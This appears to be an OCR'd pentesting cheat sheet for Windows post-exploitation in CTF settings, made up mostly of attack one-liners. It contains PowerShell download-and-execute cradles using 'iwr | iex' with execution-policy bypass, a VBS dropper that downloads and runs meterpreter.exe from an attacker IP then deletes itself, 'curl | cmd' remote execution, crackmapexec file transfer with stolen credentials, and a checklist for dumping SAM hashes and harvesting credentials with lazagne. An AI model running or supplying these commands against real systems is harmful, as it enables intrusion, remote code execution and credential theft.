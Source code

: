     powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"           #proxy friendly version      
    
    IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
## Crackmapexec     

    crackmapexec smb 172.16.1.1 -u admin -p Password! --get-file \\Users\\admin\\Desktop\\secret.txt secret.txt   #download files     
    crackmapexec smb 172.16.1.1 -u admin -p Password! --put-file hacked.txt \\Users\\admin\\Desktop\\hacked.txt   #upload files
## VBS     

    echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"

## XM File Creation (Using copy and paste)
    PS C:\> $console = [XML] @"
    <XML CODE CODE HERE>
    "@
    /# write the xml to file:
    PS C:\> $console.save("C:\users\burmat\documents\console.xml") 
    
 ## Windows 10 - curl
    curl http://server/file -o file
    curl http://server/file.bat | cmd
 ____   
# Post Exploit CTF Checklist
Check to see if device is dual home:

    ipconfig /all
    arp -a
    route print    
If you haven't already, run winPEAS, lazagne to look for creds. Check user home directories for interesting files.    
Dump SAM and SYSTEM and extract hashes, then crack passwords.   
 ## Network Scanning / Enum 
 [Static Windows binaries](https://github.com/andrew-d/static-binaries/tree/master/binaries/windows) 
 
    for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.     
    route print 
    arp -a  
    C:\Windows\System32\drivers\etc\host        Windows DNS entries  
 ____
    